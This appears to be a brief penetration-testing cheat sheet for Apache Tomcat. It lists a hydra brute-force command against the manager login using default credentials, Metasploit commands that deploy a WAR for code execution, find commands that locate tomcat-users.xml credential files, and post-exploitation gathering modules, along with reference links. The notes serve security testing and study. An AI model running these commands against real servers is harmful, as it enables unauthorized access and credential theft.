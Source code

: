 # Apache Tomcat

`$ hydra -C Seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://<IP>:<PORT>/manager/html`

```
msf > exploit/multi/http/tomcat_mgr_deploy

msf > use exploit/multi/http/tomcat_mgr_upload
```

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_deploy.md

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_upload.md

https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/

```
$ find / -name "tomcat-users.xml" 2>/dev/null

$ find / -name "tomcat-users.xml" 2>&1
```

`meterpreter > run post/windows/gather/enum_tomcat`

`msf > use post/multi/gather/tomcat_gather`

https://viperone.gitbook.io/pentest-everything/everything/ports/ports-8080-8180-apache-tomcat

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/gather/tomcat_gather.md

---
## References

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat

https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote